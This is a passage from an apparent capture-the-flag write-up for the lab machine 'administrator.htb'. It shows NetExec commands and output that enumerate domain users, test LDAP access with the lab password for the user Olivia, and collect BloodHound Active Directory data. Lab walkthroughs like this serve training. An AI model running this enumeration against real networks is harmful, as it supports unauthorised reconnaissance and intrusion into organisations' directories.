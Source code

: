 ```bash
SMB         10.10.11.42     445    DC               alexander                     2024-10-31 00:18:04 0        
SMB         10.10.11.42     445    DC               emma                          2024-10-31 00:18:35 0 
```

full users list

```bash
➜  administrator cat nxcusers.txt | awk '{print $5}' > users.txt                                         
➜  administrator cat users.txt 
Administrator
Guest
krbtgt
olivia
michael
benjamin
emily
ethan
alexander
emma
```

Lets see if we have LDAP access then we can dump BH data

```bash
➜  administrator nxc ldap 10.10.11.42 -u Olivia -p ichliebedich    
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     389    DC               [+] administrator.htb\Olivia:ichliebedich
```

and yeah lets go

```bash
➜  administrator nxc ldap DC.administrator.htb -u Olivia -p ichliebedich --bloodhound --dns-server 10.10.11.42 --collection all
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     389    DC               [+] administrator.htb\Olivia:ichliebedich 
LDAP        10.10.11.42     389    DC               Resolved collection methods: rdp, container, acl, localadmin, objectprops, psremote, dcom, trusts, session, group
LDAP        10.10.11.42     389    DC               Done in 00M 17S
LDAP        10.10.11.42     389    DC               Compressing output into /root/.nxc/logs/DC_10.10.11.42_2025-03-15_001725_bloodhound.zip

```

### Analyze-Bloodhound

